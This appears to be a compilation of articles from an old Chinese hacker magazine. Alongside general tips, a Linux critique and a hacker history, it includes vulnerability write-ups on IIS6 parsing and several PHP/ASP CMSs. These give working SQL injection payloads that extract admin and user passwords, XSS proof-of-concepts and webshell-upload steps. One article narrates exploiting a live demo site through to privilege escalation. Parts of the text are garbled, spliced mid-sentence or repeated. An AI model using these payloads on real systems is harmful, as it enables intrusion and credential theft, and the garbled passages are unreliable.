不过，我灵机一动，在 IE 中打开“文件”菜单，发现页面中多出了与 PowerPoint 相关的打开方式，结果发现这个页面其实隐藏着 PPT 文件的真实路径。进一步通过修改网页地址和利用浏览器的特性，最终成功打开了隐藏的课件。

如果你还没注意到，这个多出的菜单项就是关键。单击执行后，Windows 会调用本机上的 PowerPoint 程序来打开这个页面对应的 PPT 文件，一般情况下这个过程比较长。

只是，打开后通常还是“只读”的。现在我们可以在 PowerPoint 中使用“文件”→“另存为”将其保存下来，然后就可以任意修改和使用了。

编辑点评：看了这篇文章后，小编不由得感叹：用浏览器中的特性打开隐藏文件，确实是个颇有意思的技巧。不过，这个技巧并不能用于任意网站，也不能随意修改他人的内容。

## 用批处理打造磁盘文件夹背景更换器

### 一个个性背景任你换

从本文你可以学到：简单的批处理的应用。

当你每天面对“我的电脑”，打开磁盘或者文件夹的时候，总是面对单调的背景，时间长了你是否会觉得枯燥？那是一定的吧！好了，从现在开始，你的背景将不再单调。

### 一、原理

能任意更改文件夹或者磁盘的背景，主要是运用 desktop.ini 这个文件。让我们来看看它的真面目：

```ini
[.ShellClassInfo]
InfoTip=
IconFile=
IconIndex=101
ConfirmFileOp=0
[ExtShellFolderViews]
[{BE098140-A513-11D0-A3A4-00C04FD706EC}]
IconArea_Image=
IconArea_Text=
IconArea_TextBackground=
Attributes=1
[ExtShellFolderViews.{BE098140-A513-11D0-A3A4-00C04FD706EC}]
[Folder Settings]
IconArea_Image=
IconArea_Text=
IconArea_TextBackground=
Attributes=1
```

### 二、应用

我把其中能够改变磁盘和文件夹背景的代码抄了出来：

- `IconArea_Image=`：用于改变背景
- `IconArea_Text=`：用于改变文件背景字体颜色
- `IconArea_TextBkg=`：用于改变文件背景字体颜色

如图 1。

只读文件（这个选项可以有 0、2、4、8、16、32、64、128，前三个是常用的，分别代表一般文件、隐藏文件、系统文件）。上面的代码是用来设置文件夹图标的，下面的代码是用来设置文件夹信息的，它们不是今天的重点，有兴趣的朋友可以自己研究一下。

为配置 desktop.ini，避免自己制作的文件被恶意删除，并能在文件夹和磁盘下自动生成，我用批处理写了如下代码：

```bat
@echo off
rem 允许运行时存在变化
color 8
echo.
echo.
echo 计算机安全杂谈〔cyheart〕制作…qq:149318220
echo.
echo.
echo ------------------------------
echo.
echo 1. 更换背景
...
```

运行后界面如图 2。对关键代码我已经做了注释，对比图如图 3、4。

### 三、结束

除了文件夹和磁盘背景可以更换外，还有好多地方也可变换，像桌面（这个大家都知道了）、开机画面、右键菜单等等，这些以前都有，不懂的可以去看看。好了，到这里全文就结束了。我在论坛的 ID 是 icyheart，有什么问题，大家可以来论坛与我交流。

> 【文章中提到的批处理已收录于本期光盘中】

编辑点评：虽然此处介绍的并不是什么高级语言的编程思路，不过做出来的一些平常很实用的小工具还是很有生命力的。大家还是以实用为主，平常多动手一下，往往还能发现许多小工具。

## 突破 ISP 的共享限制

从本文你可以学到：如何突破 ISP 的限制实现共享上网。

### 一、事出有因

还是去年九月份的事了。为了更好地做测试，跟几个好朋友搞了工作室，4 台设备各套齐了之后就开工了。可是半天之后就出了问题，一台机器断开。以前听说过这件事，没想到发生到自己头上了……

### 二、就是“猫腻”？

共享的限制是因为 ISP 追求利润的最大化，也是它始终不太顾及用户体验的表现吧。就在我们还在经营 3G 技术的盈利模式时，4G 技术又已经提上日程。在这条路上，ISP 的一贯作风大家并不陌生。各 ISP 不管是对工业标准，还是对共享上网这个问题，限制都已经成为最常见的方法了。

### 三、共享限制与初期破解

ISP 是靠什么达到限制的呢？因为他们安装了一款叫做“网络哨兵”的系统，其主要原理就是检测用户的 MAC 地址，达到“判断”多用户共享的目的。对多用户，自然就会被加入黑名单。每次打开网页等操作时，都会被重定向到服务商的“警告”页面，不过 ISP 会在 1～24 小时内解封（各地区限制不同）。

“网络哨兵”是上海某网络系统有限公司开发的网络接入检测及控制系统。它可以自动检测出网络中主机是否使用了代理服务器系统或路由器，并对通过代理服务器的 IP 以及来自路由器的 IP 进行控制。通过这种控制，它能够限制网络中非法共享网络的用户上网。该系统在电信、网通用户中应用非常广泛。

随着网络的不断升级，以前简单的修改 MAC 地址的办法已经不再奏效。到了这一步就不得不推陈出新，黑客们也在想办法了。难道我们就要继续被限制下去吗？当然不！今天给大家介绍一下突破的方法——使用共享卫士来突破。

共享卫士由神州工作室出品，官方网站为 www.shuyanet.com，提供最新版本下载。目前最新版本为 2.08.05。使用它可以突破 ISP 对用户的共享限制，不过由于它自带防火墙，也可以支持对用户计算机进行网络安全防护。它还提供了一些网络功能，比如对客户机的联网进行限制等操作。

### 四、新的策略，新的对策之一：网络硬件连接

在介绍之前，先给大家说下路由猫与交换机（或路由器）的连接方式。它与平时的连接方式有一些小小的改动。

- **1. USB 接口调制解调器**  
  首先将 USB 接口插上，安装驱动程序，将网卡的 IP 设为 192.168.2.XXX（3～254）。用一根网线连接到计算机的网络适配器（网卡）接口（RJ-45 线缆）上，另一端插到交换机上；若是路由器，则插入 WAN 口或 LAN 口。其他客户端机器可通过网线和网络适配器（网卡）与交换机（或路由器）连接。如图 1。

- **2. RJ-45 接口路由猫**  
  将路由猫的 RJ-45 接口接到交换机或者路由器上，注意不要插路由器的 WAN 口，这样就不便使用路由器的路由功能，实际上只是当交换机使用。所以还是建议使用交换机，这样性能更稳定。如图 2。

### 五、新的策略，新的对策之二：共享卫士使用

- **1. 安装**  
  就像安装一般的应用软件一样，没有任何难度，经典的一路“NEXT”。安装结束可以看到弹出一个对话框，提示设置 Apache、MySQL 以及内部通信的端口，根据提示即可。如图 3。点击应用，确定后即可完成安装，重启后生效。

- **2. 软件使用**

### “认证管理”选项卡

首先在“认证管理”中添加用户，输入需添加的用户名、密码和用户姓名，选中“绑定 IP 用户”和“密码认证用户”功能；“绑定 IP 用户”将特定的 IP 绑定给特定用户，例如 admin 这个用户名，为安全起见更要绑定 IP 地址。“密码认证用户”则可以给特定用户设置特定的密码。

“上网控制”选项卡中，“策略设置”可以为“认证管理”中绑定的 IP 用户添加策略，包括上行与下行流量上限、上网时间等。上网时间可以设置为星期几、每小时控制和持续几小时等。“流量设置”可以选择 5～60 秒，也就是“流量统计”中的刷新率，这样可避免刷新过快。

“防火墙设置”选项卡主要设置过滤参数，包括 MAC 地址、IP 地址、域名、攻击包等。除了不能正常上网或者不能游戏时可以选择第二种上网方式外，对于一般用户不要随意修改参数，否则可能会使安全系统失效，或者不能再突破这些限制而被封。

“系统工具”选项卡中，“端口设置”可以修改软件对 Apache、MySQL、通信端口的设置；“修改登录密码”可以修改账户密码；“系统设置”为默认即可。

### 3. 多用户宽带共享加主机的问题——多机自动加载

共享上网时总要有一台做主机，但你不能整天都开着一台机器吧？好在共享卫士提供了多用户切换的功能：即先启动的机器就是主机，主机中途退出，辅机可以自动完成接替。

## 浅析 IIS6.0 设计缺陷

从本文你可以学到：利用 IIS6.0 缺陷如何正确解析“大马”以及其它缺陷。

应该是好久以前吧，呵呵，大家应该还记得那个没有过滤“.”和“asp”的漏洞吧。在 2003 系统的 IIS6.0 配合下，我们很容易就在 xx.asp 的文件夹下上传一个 xx.jpg 的木马文件，这样我们就可以得到 Web 大马了。今天我们谈到的问题就是这个设计缺陷。

### 一、无法访问大马的疑问及解决办法

本来我想靠细心地从多方面探讨一下，可用 Google 和百度怎么也搜索不出我想要的结果，直到网上找到的也只是说了几句：让我创建一个 xx.asp 的文件夹，然后在其文件夹里面上传一个木马，把木马改成 jpg 或者 gif 等后缀，就可以得到我们的后门木马了。今天我测试的时候却出现了一些让人疑惑的问题，还是用实验来说明下情况吧。

```asp
URL=Request.ServerVariables("URL")
ServerIP=Request.ServerVariables("LOCAL_ADDR")
Action=Request("Action")
```

最关键的是第一句，获取到的参数是通过 r1.asp 传递的。也就是说当我们登录的时候，服务器会解析 1.asp，所以无法访问的问题也就出现了。

```asp
URL=Request.ServerVariables("PATH_INFO")
```

这样，我们就可以顺利地访问“大马”了，图 4。这里我们就不再细说 `PATH_INFO` 这个变量了，它的功能就是上面分析的那样。通过这种方式，它就会一直定位到 dama.jpg。现在从网络上得到了答案，这回也就可以弄明白为什么以前会出现那个问题了。

### 二、对其它脚本文件解析的思考

小结一下学习和研究中的一段体会：可能我说的这个问题，很多老鸟早就知道了，不过它对理解很多现象还是能起到提示作用的。不多说了，当时我就想，既然能解析 xx.asp 文件夹中的文件，那么 xx.aspx、xx.php，是否也能实现类似的后端脚本解析呢？

试了一下，确实能够把 xx.php 文件夹下的文件解析成 PHP 文件（不过，他是用上面的 PHP 文件测试的，没有用 PHP 3 处理）。

### 小结下：

这篇文章主要是讲解原理，以及对其它格式脚本文件支持这种形式的解析所做出的尝试。当然因为思路不同，因此也没有继续测试 CGI、JSP 以及 JPG 等其它文件。网上的内容太多，关注下原理比什么都重要。

编辑点评：该站点的设计思路确实有些问题，解析程序出错的可能性很高。总之，正如作者所说，了解了 PHP 解析的原理之后，就算不能马上成为高手，也能做一些更深入的研究。

## Linux 请走下神坛

九十年代初，芬兰一个名叫 Linus Torvalds 的大学生开发出了一套操作系统的雏形。随后，成千上万的计算机爱好者和程序员加入其中，这个雏形也便迅速发展成了一个功能完备的操作系统，被称为 Linux。由于它并不是专门针对普通用户而设计的，Linux 也因此常常被一些人认为是仅供电脑极客使用的系统。

但对一个普通的计算机用户来讲，这个系统却并不比其他面向消费者的操作系统逊色。它也不会因为“开源”而显得难以上手；反而，Linux 系统的桌面化软件、界面风格和安装手段都已经变得非常成熟。如今 GNOME 和 KDE 这两个成熟的桌面环境，已经让 Linux 在用户体验上迈进了一大步。

在很多人的印象中，Linux 只适合给服务器使用，或者不适合像 Windows 那样作为客户端供普通用户操作。本文通过若干实例说明，Linux 已经不再是“神坛”上的系统，它同样可以成为普通用户桌面上的选择。

### 1. 发展迅速的桌面应用

到目前为止，在 Linux 上有两大桌面系统流派的比拼：一是 GNOME，另外一个是 KDE。虽然许多 Linux 支持者不愿意承认双方存在分歧，但在其内部确实形成了两个对应的阵营。

## 【冷眼看源】— 2008.05

的部分知识产权，并指控 IBM 对商业机密处理不当。该公司因此将 IBM 告上了法庭，并威胁要对所有使用 Linux 的用户采取法律行动。随后，SCO 集团对 IBM 公司的侵权诉讼演变成了对 Linux 的全球攻击。在微软“歌剧战争”的支持下，一时间 Linux 的合法性受到了用户的质疑。微软公司官方曾声称，Linux 侵犯了其内核中早已存在的 235 项专利。他说：“对于所有已加入世界贸易组织的国家来说，有一天，有人会发明构想到并对它使用，微软也要较宽松。”

而 Linux 上的应用都可以无须移植就自然过渡到 Solaris 上，而且 Sun 的服务价格比起 Linux 还便宜 1/3。

另外，以 FreeBSD 为首的 BSD 系列凭借其杰出的安全性和稳定性，更胜于不少 Linux，因此受到很多人的喜爱。

### 3. 跨平台内部的矛盾

SUSE、Debian、RedHat、Ubuntu、Knoppix、Fedora、Slackware、Mandriva、Asianux、TurboLinux、RedFlag 等名字太多了……各个版本一团混战，各自引以为荣。你采用 RPM，我用 DEB。你在你的系统上用 Apt 安装软件，在我的系统上就得用 Yum。如果你从一种 Linux 发行版转到另一种 Linux 发行版，你就可能需要学习一个新的安装工具……

技术上的不兼容甚至并不理想，Linux 厂商内部的重叠分立才是致命的。2006 年 11 月，微软与 Novell 签订了合作协议，协议规定在 2012 年之前，微软和 Novell 将就 Windows 和 Linux 的合作展开联合开发、市场推广和技术支持，Novell 的 SUSE Linux 也成了微软官方推荐的 Linux 发行版本，不但能与 Windows 无缝协作，还不会受到专利问题干扰。Novell 的官员还公开表示：“Windows 解决方案，在你方便时懂你 Linux。”这也并非 Linux 所谓“非常稳定”，并引发了红帽等其他 Linux 发行商的不满……

### 4. 让人困惑的价格

为什么？有相当多的人告诉我 Linux 是免费的，因为这是个 free 的操作系统。对此我并非这样说，free 并不等于免费，更多是自由的意思。这里我选出一些关于其价格的例子。人们常以为 Linux 是免费的，也就是一些 Linux 的桌面版，的确如此。但价目表中的一些款式与 Windows 相差并不小——一年前发布的红帽 RedHat Linux AS4.0，其中文版的价格大概在 9000 RMB 左右，AS5 的简体中文版本，高级别的价格也在 1 万左右。比较实在的还有 Novell，一盒套装的 SUSE 收费也不低，而用户享受的不过是一份服务支持而已。当初 RedHat 在公布取消 RedHat 9.0、只支持随后的收费版本之后，它被人骂得很惨，狗血淋头。

### 5. 强大的竞争对手

IDC 的报告显示，Windows 在 2005 年首次超过 Unix，成为服务器上的第一号操作系统。近日 Windows Server 2008 又正式发布，Linux 面临了更大的挑战。

从技术和市场来看，Sun 微系统公司正部署推出全新的 OpenSolaris。该系统不但可以自由使用，技术细节更是全部开放。一方面，Sun 因为开源而将获得更广泛的认可；另一方面，Sun 又将因为开源而不得不为 Solaris 维持更多的新版本资源与更新。相当一部分 Linux 发行商也因此转投 Solaris 门下。Sun 主管操作平台的副总裁 Gleen 表示，所有的基于 Linux 上的应用都可以无须移植就自然过渡到 Solaris 上，而且 Sun 的服务价格比起 Linux 还便宜 1/3。

另外，以 FreeBSD 为首的 BSD 系列带来的杰出安全性和稳定性，也更胜于不少 Linux，因而受到不少人的喜爱。

### 6. 抽丝的安全性

一个操作系统最重要的就是稳定性。OpenBSD 曾赢得过“安全型单一不发一个漏洞”的美名。这套操作系统源于古老的 Berkeley Unix，这个星球上另外两个较大的操作系统——Sun 微系统的 Solaris 和苹果电脑公司的 OS X——也同属于此。由于采用了先进的设计理念、完善的开发者社区，Adobe 的公司系统中运行着 OpenBSD。

该系统的开发者们采取最严格的办法：一行行检查源代码，找出问题。整个项目中只有大约 10 到 15 人，大概几年的时间就能检查完 OpenBSD 300 万行左右的源码。一旦发现漏洞，OpenBSD 的开发者们会使用既定的开发样式并作出更新。即使这是一种难得的及时修补，那么一个系统能维持最多二十年的寿命，也是难得一见。

我们再来看 Linux，动不动就被发现内核漏洞，甚至第三方软件漏洞被发现也几乎时有所闻，但如果短期来说也许是如此。难道说 Linux 在本质上还不如 OpenBSD？顺便提一下目前用户群最大的 Ubuntu Linux，给初学者上手后，这些高明的公司会有序地帮其解决问题。再看看所谓安装量强烈的 Windows，拿众人从 2007 年下半年开始到今年年底所说，其系统漏洞又如何了。

### 7. 非英语和代码问题暂且不讲

无论是 Ubuntu 还是 Fedora，无论是 1.0 还是到 6.0，Linux 仿佛就不能好好地在文档里面说清一个事实。这样说来，就算什么中文都看得出来，也未必对得起普通用户。桌面版这样就不说了，那些家庭版似乎也一般一样。就把安装、设置什么的，那些网络版也有规律一下，其实在不安装上去之前，人们也未必就能正常使用。结果，从 2007 年下半年开始到今年年初，就没什么系统漏洞了。

也许，Linux 真的是一个能够吸引很多人的操作系统。它对改进比较友好，且所追求的管理范围也很大。但是在承载了打败 Windows 这样的重任以后，Linux 就并不光彩，不能就此将其平台化。其脆弱性的一面便再度被放在首位，大量的代码只是被不断地试验，并没有形成有效、稳定的检查和修整。Linux 也常常有自己的真正开放和方向。操作系统的世界里，这是非常丰富多彩的。那么，何不去关注更完整的系统和平台呢？

### 编辑后记

文章共列举 Linux 七项过错，虽然在文章之中漏洞百出，而且不少地方有明显偏颇观点。不过 Linux 到底是不是真的差呢？我想这应该不要太过于对其抱有偏见吧。而就用户而言，与正常电脑要靠别人解决是个不同的事情。

## 黑客编年史

### 前言

记得一位学者曾说：任何一段历史都有它不可替代的独特性。从这个角度看，伴随着计算机与网络这两面而生的“黑客”一词和它的历史，更具有这样的特点。仔细翻阅计算机与互联网的发展历史，我们或多或少地能够从字里行间中寻找出黑客的身影与痕迹，而整个互联网的发展实录都是构建在这种从未间断过的极限挑战之中……

> “我是天空里的一片云，偶尔投影在你的波心——  
> 你不必惊异，更无须欢喜……  
> 在转瞬间消灭了踪影。  
> 你我相逢在黑夜的海上，  
> 你有你的，我有我的，方向；  
> 你记得也好，最好你忘掉，  
> 在这交会时互放的光亮！”

——徐志摩《偶然》

一台伴随着数字而诞生的机器，一个为了全球状态化而建立的网络，复杂的哲学注定了它成长过程中的矛盾多于合理性。特别是中国这样一个刚刚发展起来的国家，黑客这个名词似乎可以作为我们和中国计算机世界历史与梦想的序章。在这个信息化、高度网络化的时代，我们也无法回避其存在于网络传播与信息安全之中。随着时代的变迁，黑客的发展历程中形成了鲜明的群体标签：他们被称作“黑客”与“骇客”、白帽、灰帽以及不同阵营中的“技术流”。

### 第一章 Hacker 的编年

现在，当你在国内追寻“Hacker”一词的由来时，在大多数网站或书刊中的描述并无二致：通常在字典里解释“Hacker（黑客）”一词时，含义可源于英语动词 hack，意为“劈、砍”，是指“爱好辛苦而又充实工作的人”，后被引申为“一个非正式地在大学或研究机构工作的年轻人”，再到后来专指计算机系统中对程序、系统和网络进行研究、修改或突破的人。

无论你是否相信，至少从辞源上来讲，它们之间确实存在着语义上的关联。hackney 指的是位于英国伦敦西部的一个小村庄。由于 Hackney Village 逐渐成名，人们也把 hackney 与“出租马车”联系起来，而后来又将该词义进一步扩大，用来指代所有的“出租马车”。同样，hackney 词义延伸后，在英语中形成了带有贬义的“hack”用法，并逐渐演化出“陈词滥调”的说法。

正是因为 Hackney 代表了“陈词滥调”的老生常谈用法，因此二十世纪五十年代，黑客在著名的麻省理工学院（MIT）诞生时，Hacker 这个词就逐渐被赋予了“打破陈规和老套思维”的含义。也正是如此，Hacker 当时这个词还很少被理解到“诽谤、庸俗”的含义，反而开始用来指代“特别喜欢尝试某件新奇的事物或把它做好”的人。

随后，Hacker 通过计算机和网络的方式进入了一个数字化的时代。此时，黑客在大多数人的印象中已不再是古怪的技术宅，而更多是一种对计算机系统、程序和网络有浓厚兴趣并具有创造力的群体。此后，随着互联网的兴起，黑客文化逐渐在全球范围内传播，并形成了今天我们所熟悉的技术社群与网络安全生态。

## 第二章 “黑客”为战争而生（30～40年代）

真实的黑客主要指的是高级程序员，如 Linux 创始人林纳斯·托瓦兹，而不是被误导为对电脑系统及程序进行恶意攻击及破坏的人。除了精通编程、精通操作系统的人可以被视作黑客外，现在精通网络入侵的人也被看作“黑客”，而那些对硬件设备进行创新的工程师也常常被认为是黑客。但到了今天，在专业知识层面之外的大众报道中，黑客一词已被泛指为“骇客”，因此也影响了大众对黑客的理解。

核战争的阴云一直笼罩全人类，但是正是原子弹的威胁促进了互联网的诞生与发展。真正的黑客发展史中，重要的不是程序员的角色，而是计算机安全、程序设计以及操作系统在不断完善中形成的技术积累。在上世纪五十年代，关于计算机的研究多集中于军事与科研机构，美国国家研究机构也在这一背景下逐步形成了今天的互联网雏形。

对于各国的密码加密和解密精英们，这一故事始于 1918 年。在那一年，德国工程师阿瑟·谢尔比乌斯（Arthur Scherbius）申请了专门设计的机器并获得专利，这台机器后来发展成为现代密码学历史上最出名的实用加密机器“恩尼格玛”（Enigma），最初是为了机械电码而设计的。它既能作为加密机，也能解密，成为战争史上最重要的密码装置之一。

第二次世界大战开始以后，密码学与通信加密的研究不断加速，并对后来的计算机体系结构和信息安全理论产生了深远影响。英国密码学界由此在二十世纪五十年代和六十年代不断推进密码破译与分析工作，形成了现代计算机科学与密码学交叉发展的重要基础。

ARPANET 的诞生，不仅是一个新的开始，也是 20 世纪后半期影响深远的网络革命的开始。而在 ARPANET 出现的几十年前，黑客的另一项“加密与破解”技术已经开始被广泛应用并取得重要成果，以至于它推动了现代密码学的发展和电子计算机的诞生。

## Dedecms v5.0.1 多个 0day 漏洞曝光

从本文可以学到：

- dedecms 注射、暴库前缀、跨站漏洞分析
- 后台取 webshell 方法

织梦内容系统（dedecms）是一家国内应用非常广泛的 PHP CMS。最近 dedecms 5 发布了，忙里抽闲看了下，发现还是有一些明显的漏洞，国内基础系统的安全现状让人担忧。今天来看看其中比较典型的漏洞。

### 漏洞一：又见 GetIp()

比较经典的一段漏洞代码出现在 `\include\inc\functions.php` 中，数次将这个函数的结果直接入库，造成了很多处注射漏洞。当然，这个漏洞在 dedecms 4 中也一直存在 :)

```php
function GetIp() {
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) $cip = $_SERVER['HTTP_CLIENT_IP'];
    else if (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
        $cip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    else if (!empty($_SERVER['REMOTE_ADDR'])) $cip = $_SERVER['REMOTE_ADDR'];
    else $cip = "无法获取";
    return $cip;
}
```

这个类型的漏洞已经很多了，我不再详细写了，只拿其中一处与一个 POC，方便理解：

```php
// member\story_add_action.php (30)
$userid = getip();
$sinQuery =
INSERT INTO `#@__story_books` (`catid`, `channelid`, `nokey`, `discernment`, `click`, `freezm`, `bookname`, `author`, `memberid`, `litpic`, `pubdate`, `ischeck`, `lastpost`, `postnum`, `lastfeedid`, `feedbacknum`, `weekcc`, `monthcc`, `weekup`, `monthup`)
VALUES ('$catid', '$catid', '$booktype', '$screenm', ...)
```

要伪造 `HTTP_CLIENT_IP` 为 `111.111.111.111', '1173448061'), ('1', '0', '0', '1', '1', '6', (SELECT concat(userid, 0x5f, pwd, 0x5f, uname) FROM dede_admin WHERE id = 1), 'fly4ht', ...), 1173448071, '1', '0', '1', 'fly4ht', 'fly4ht', 'fly4ht', '127.0.0.1, 127.0.0.1, ...` 才可以注射成功（注意这里的 mysql >= 4.1，这个版本应该可以支持子查询），具体参考光盘里面的 POC。

骇客（术语）——一个善意的（一般是非法地）试图破解系统或环境程序、系统或网络安全的人。

### 认识黑客的划分

### 漏洞二：暴数据库表前缀

这个漏洞和漏洞一是天生的一对，在用户修改了表前缀的情况下，我们可以通过 SQL 注入获得数据库表前缀信息，但是这个漏洞给了我们一个机会：省代码。

```php
/* plus/search.php
$keyword = stripslashes($keyword);
$keyword = ereg_replace(...);
$keyword = ...;
if ($keyword)...
...*/
```

下面我们来看 SearchView 类型里面两个函数：

```php
include/inc_search_view.php
function GetKeywordSql(){ ... }
function CountRecord(){ ... }
```

接着看：

```php
include/inc_arcsearch_view.php
function CountRecord(){ ... }
```

### 漏洞三：跨站贯穿前后台

- 1. 前台跨站

在给用户留言的地方过滤不严，可以在留言内容里直接写 script 代码。

```text
POC: 留言内容填写 <script>javascript:alert('flyh4t')</script>，当用户看留言时就执行了代码，如图 2。
```

- 2. 后台跨站

在用户填写个人说明的地方过滤不严，存在跨站漏洞，该漏洞可以跨到后台。

```text
POC: 在个人说明处填写 test</textarea><script>javascript:alert('flyh4t')</script>
```

当管理员进入后台查看个人信息时代码就会执行，如图 3。这个漏洞利用起来的话危害很大，可以直接通过 XSS 对后台提交表单得到 webshell。后台得到 webshell 的方法：## Friends!，漏洞不是 Friendly

从本文你可以学到：Friends! 婚恋交友系统漏洞（注射、跨站）分析

## 一、前言

Friends! 婚恋交友系统 V2.0 是一套集成了会员日志、交友速配、相册等多功能的开源交友系统，稍微浏览一下它的功能案例，发现用过该系统的还有文友大站呢！由于本身 PHP 程序受到 magic_quotes_gpc 选项的影响，使得 PHP 程序在一定程度上显得比较安全。当然，Friends! 婚恋交友系统使用了大量的过滤函数来过滤不安全的变量，从而使得这套程序的安全性比较高。

## 二、SQL 注入分析

众所周知，magic_quotes_gpc 打开的话，会把输入参数中含有的单引号、双引号等前面加上反斜杠（\）。例如本程序中 pm.php 里的代码：

```php
$sid = $_GET['id'];
$arr = $db->fetch_array($db->query("select * from friends_user_pm where id=$sid and id='{$sid}'"));
```

虽然说某些 id 接收后没有经过任何过滤就放入到 SQL 查询语句中，我们用 `' and 1=1/*` 放入到 id 中去的时候，在其他的语言中有可能是这样的，如：`select * from friends_user_pm where pto='test' and id=1'1/* and 1=1/*`，但是在 PHP 中 magic_quotes_gpc 打开（默认是打开的）时，查询语句就变成了 `select * from friends_user_pm where pto='test' and id='1\' /* and 1=1/*`。这程序中有的地方使用了 intval() 过滤变量，如在 user.php 中，变量 userid 取得了用 intval() 处理 id 的值，这时 userid 便成了数字了：

```php
$userid = intval($_GET['id']);
if ($userid > 0) {
    $sql = "select * from friends_user where id='$userid'";
    $sqlobj = $data->getList($sr, 2);
}
```

但是找了一遍，在 words.php 中存在如下的代码：

```php
function view(){
    global $db, $tpl;
    $id = $_GET['id'];
    $sr = $db->fetch_array($db->query("select * from friends_words where id=$id"));
    $res = $db->fetch_array($res);
    $words = ...;
    $tpl->assign('title', $sr['title']);
    $tpl->assign('writer', $sr['writer']);
    $tpl->assign('from', $sr['from']);
    $tpl->assign('date', $sr['date']);
    $tpl->assign('words', $words);
    $tpl->assign('main_middle', 'words.html');
    $tpl->parse('main.html');
}
```

变量 id 用 GET 方法取得后，没有使用如上的 intval() 形式的处理，也没有把变量 id 当作字符型放入到查询语句 `select * from friends_words where id=$id` 中，这就是 SQL 注入。本来打算在官方网站上测试的，但是校园网的速度太慢，先手都留在了官方方面。在本地提交了 `http://127.0.0.1:90/words.php?op=View&id=1%20and%201=1` 这样的页面后，再提交 `words.php?op=View&id=1%20and%201=2`，得到的页面返回不同，说明前面的分析是正确的，如图 1 所示。


这时候用跳过验证提交 `http://127.0.0.1:90/words.php?op=View&id=1%20and%201=2%20union%20select%201,2,3,4,pass,username,7%20from%20friends_user`，在数据库里面的查询语句就变成了 `select * from friends_words where id=1 and 1=2 union select 1,2,3,4,pass,username,7 from friends_user`。当然，语句中查询的是所有用户和对应的密码，但是由于显示的时候只能显示一个字段，所以显示 id 为 1 的用户名字，就能查询出管理员的用户名和密码，如图 2 所示。

## 三、跨站漏洞分析

虽然说系统中对 SQL 注入有了一定的防范，整个系统只有这么一个存在注入的地方，但是对于字符串型的变量，基本都有经过过滤，导致产生很多跨站漏洞。例如在 pm.php 中有如下的代码：


`height='100' src='http://www.baidu.com/'></iframe>`，这时候当别人查看新消息的时候，就能看到 baidu 页面框架，分别如图 3、图 4 所示。

## 四、总结

做到脚本安全其实就是一个清晰的逻辑，保证每个输入输出变量都要经过过滤，重视每一个变量。当然，安全的人才也应该受到重视。某公司因为觉得他们做安全的人比较多，每个月给的几十块钱工资好像让产品的成本加大了，就把安全人员裁掉了。但是新产品没过多久就漏洞频频出现，使得产品的销售量大幅减少，最后又不得不请安全公司来做产品的安全检测。说多了……

编辑点评：

作者对常见漏洞的原因和分析等说得挺透彻的，加入分析的部分显得更有说服力，很有实战攻防味道。客观来说，另外，最后那段小“提议”，我很看好。

## Php168，一个正规的血案

从本文可以学到：Php168 漏洞分析

Php168 是个应用很广的 CMS 系统，下面这一段话是从官方网站摘录的：Php168 整站 4.0 是一套功能极其强大的内容管理系统，并集成了 Web2.0 多用户博客系统。Php168 整站 4.0 以开放、稳定为核心，是集成了博客、下载、图库、视频、音乐、FLASH、商城于一体的整站系统，适用于个人、单位、企业、团体、学校、政府等的一体化整站系统。

### 一、漏洞分析

利用的思路是这样的：注册一个用户，再注册一个用户，再次注册一个用户，其中第二步构造的 IP 为 `xxxx`、`0`、`111`、`0`、`1`、`1`、`123`、`123`、`123`、`123`、`123`、`0`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`、`1`。


具体的过程可以参考我的 exp，下面我们到 php168 演示站测试一下：

### 实例演示

首先到 demo.php168.com 注册一个用户，看到我的 id 是 42，如图 1。使用一下 exp，格式是 `php exp.php demo.php168.com / 42`，加的管理员是 `testfly`，密码为 `testtest`，如图 2。登录后台，修改设置，添加 PHP 上传类型，如图 3。成功上传一个 webshell，如图 4、图 5。服务器安全性设置得也不怎么好，最后顺手提了一下权限，登录了 3389，如图 6。文章就到这里了，已经把漏洞通知给官方去打补丁了，请不要用文章的 exp 破坏别人网站。


编辑点评：已经有很多的站点在 IP 这里中过招了，因为很多程序员没有对收到的 HTTP 头做全局的设置，没有对这些动态性的内容进行防范，破坏力很大，这些东西都是非常危险的。

## 品络影视系统 2.0 漏洞分析

从本文可以学到：

- 品络影视系统漏洞分析和利用
- 跨站得到 webshell

## 一、介绍

品络影视系统是一套由品络科技开发的完全免费的开源系统，在系统的安装文件中就特别强调了安全问题。系统本身自带了登录日志、防盗链、限制 IP 的安全措施，还特别提到更改数据库连接文件和后台地址。当然，不会有一个人一字不漏地去阅读系统的安装文件，而且程序本身就有很常见的安全问题。

## 二、SQL 注入漏洞

在 `user/ok/searchname.asp` 中有如下代码：

## 三、跨站脚本漏洞

判断有注入了，但在文件中没有对数据库的数据输出，就不能利用联合查询了，只能用其他方式。本文测试时，使用的小榕、阿 D、NBSI、HDSI 都没有检测出结果，后来使用 pangolin 跑出了密码，在 keyword 关键字的地方填写“已被占用，请重新输入”，得到的结果如图 2 所示。


当检测不到这一处，还有几个地方有 cookies 注入，例如在 chagepwd.asp 中有如下的代码：

```asp
set rs=server.createobject("adodb.recordset")
rs.open select * from users where id='" & request("cookies") & "' and passwd='" & request("cookies") & "' ...
```

上面的代码用 request.cookies 方法分别取得 userid 和 password 的值，这样经过构造注入语句，即可在下次进入查询语句时将 `userid=rs("userid")` 赋给了 userid，并且显示出来。这样的话就只需要联合查询，就可以得到密码表中的密码了。

再用那小巧的修改 cookie 功能来测试，先注册一个密码为 000000 的用户 test，登录后，修改会员密码，截取 cookies 输入框中修改密码的数值，数据如下：

```text
userid=test&ASPSESSIONIDASRBSCC=...&cookie=...&password=...
...
```

只用一个用户名与密码的值，这样的方式将会把数据库中的用户名和密码显示出来。最后把用户名的值填入到 union 语句当中，在中间放入 password 和 userid 等字段，即可得到用户名和密码。

```sql
select * from users where userid='test' and password='8ad9902aecba32e' and 1=2 union select 1,name,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30 from password where id=9 or '1'='1'
```


## 四、跨站漏洞

